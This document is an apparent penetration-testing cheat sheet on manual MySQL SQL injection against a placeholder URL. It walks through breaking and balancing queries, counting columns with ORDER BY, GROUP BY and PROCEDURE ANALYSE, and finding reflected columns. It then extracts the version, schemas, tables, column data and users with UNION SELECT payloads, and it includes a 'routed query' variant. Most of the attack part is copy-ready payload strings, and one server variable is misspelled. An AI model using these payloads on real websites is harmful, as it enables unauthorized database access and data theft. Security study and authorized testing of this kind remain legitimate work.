 # MySQL SQL Injection

#### Steps to perform SQL Injection.
1. Break the Query.
2. Fix/Balance the Query.
3. Get the total number of columns.
4. Get the vulnerable columns.
5. Exploit. (get the data from database)


### 1) Break the Query.
- let's say we have target https://website.com/product/id?=23 now, we want to test this URL for SQL Injection. So, as described in steps above, the very first thing we've to do is **Break the Query**.
- So, for breaking the query, we can use ``` ', ", `, . ```
 - example,
   - https://website.com/product/id?=23'
   - https://website.com/product/id?=23"
- after adding the ``` ', ", `, .```, you'll see error messages like, `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1` or any wired errors or maybe unusual behaviour in/on target website.

### 2) Fix the Query.
- after breaking the query, we've to fix the query. So, we can **balance** the **SQL QUERY**.
- So, for that we can use ``` --, --+, -- -, #, --#, ., -, /*, '), "), `), ')), ")),`)), '), ;%00 ```
- example,
   - https://website.com/product/id?=23' --
   - https://website.com/product/id?=23' --+
   - https://website.com/product/id?=23' -- -
   - https://website.com/product/id?=23' #
   - https://website.com/product/id?=23' --#
   - https://website.com/product/id?=23' /*
   - https://website.com/product/id?=.23' --+ (see the `.`)
   - https://website.com/product/id?=-23' --+ (see the `-`)
   - https://website.com/product/id?=-23') --+ (see the `-`)
   - etc. (*there are many ways to fix the query. at the time of wrting this, I forgot some of them. I'll add them If I came to know about it. till then, add your own variations to it.*)
 
### 3) Get the total number of columns.
- after balancing/fixing the query, we need to solve this question. **how many columns are there ?**
- So, to check the columns we can use ``` ORDER BY, GROUP BY, PROCEDURE ANALYSE() ```
- example,
   - https://website.com/product/id?=23' ORDER BY 5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' ORDER BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' PROCEDURE ANALYSE()-- ERROR. (In this method, the website will act wiredly. So, keep closer look on website. ex. list random lists, paragraphs, errors, or something else, etc.)
     - Look at the website, if website lists random things let's say some 3 dots or whatever. then, confirm that, website has 3 columns.

### 4) Get the vulnerable columns.
- after getting the total number of columns, now it's time to find vulnerable columns, where we can try to place our pyloads strings to get the data from the database.
- So, to get the vulnerable columns, we can use ```UNION SELECT NULL or INT ``` or ```UNION ALL SELECT NULL or INT ```.
- add the NULL or INT value, total number of columns we get.
- example,
   - https://website.com/product/id?=23' UNION SELECT 1,2,3-- Because, we got the total 3 columns.
   - https://website.com/product/id?=23' UNION SELECT NULL,NULL,NULL--
   - https://website.com/product/id?=23' UNION ALL SELECT 1,2,3--
   - https://website.com/product/id?=23' UNION ALL SELECT NULL,NULL,NULL--
- now, in the case of `https://website.com/product/id?=23' UNION SELECT 1,2,3--`, you'll see a numbers been reflacted on the website. ex. 2,3. So, columns 2 & 3 is vulnerable.
- in case of NULL, we've to replace NULL by adding strings in each NULL value to get the vulnerable columns.
- example,
  - https://website.com/product/id?=23' UNION SELECT 'findVulClmn',NULL,NULL-- See, if `findVulClmn` been reflacted on website or not. if yes, then, congratulations, we've found vulnerable columns.
  - if not, go ahead and try, https://website.com/product/id?=23' UNION SELECT NULL, 'findVulClmn',NULL--.
  - try until you find some string being reflacted on website.

- **What if we didn't see any numbers been reflacted on website?**
 - So, in that case, we've to try other methods. such as, routed query, etc.
   - ***Routed Query***
     - So, in routed query injection technique, we do something like this,
       1. https://website.com/product/id?=23' UNION SELECT 1',2,3--
       2. https://website.com/product/id?=23' UNION SELECT 0x3127,2,3-- (**here 1' is 0xHEX-'0x3127' encoded.**)
         - now, put **0xHEX** encoded value on each column one after one and see the results. If, web page gets redirected or gets error or something strange happens in/on web page, then, assume that we can put our **routed query** in that column.
           - example,
             - if we get errors on 2nd column, (i.e. https://website.com/product/id?=23' UNION SELECT 1,0x3127,3--) then, we can perform our injection on that column like this,
             1. *Get the total number of columns:* https://website.com/product/id?=23' UNION SELECT 1,2' ORDER BY 10--,3-- ***(0xHEX the ORDER BY 10--)***
             2. *Get the vulnerable column:* https://website.com/product/id?=23' UNION SELECT 1,2' UNION SELECT 1,2,3,4,5--,3-- ***(0xHEX the UNION SELECT 1,2,3,4,5--)***
             3. now, you got the point. 🙂

### 5) Exploit. (get the data from database)
- So, after getting vulnerable columns, we can get the data from database by using various payloads.
- **get the version**
   - https://website.com/product/id?=23' UNION SELECT NULL,@@version,NULL--
   ```
   VERSION()
   @@GLOBAL.VERSION
   @@VERSION_COMMENT
   ```
   
- **get the database**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(schema_name), NULL FROM information_schema.schemata--
   ```
   SCHEMA()
   DATABASE()
   SELECT CONCAT(DB) FROM INFORMATION_SCHEMA.PROCESSLIST
   ```
- **get the tables**
  - https://website.com/product/id?=23' UNION SELECT NULL,concat(table_name), NULL FROM information_schema.tables WHERE table_schema='DATABASE'--
- **get the columns**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(column_name), NULL FROM information_schema.columns WHERE table_name='TABLE_NAME'--
- **get the data**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(0x28,column_1,0x3a,column_2,0x29), NULL FROM TABLE_NAME--
- **get the user**
   - https://website.com/product/id?=23' UNION SELECT NULL,USER(),NULL--
   ```
   CURRENT_USER()
   SYSTEM_USER()
   SESSION_USER()
   SUBSTRING_INDEX(USER(),0x40,1)
   SELECT CONCAT(USER) FROM INFORMATION_SCHEMA.PROCESSLIST
   ```
 - **other**
   - SERVER OS : `@@VERSION_COMPILE_OS`
   - SERVER OS TYPE : `@@VERSION_COMPILE_MACHINE`
   - SQL BASE DIR : `@@BASEDIR`
   - SQL DATA DIR : `@@DATADIR`
   - PLUGIN DIR : `@@PULGIN_DIR`
   - HOSTNAME : `@@HOSTNAME`


## Blind MySQL SQL Injection

**Note:** not completed. to be continued...
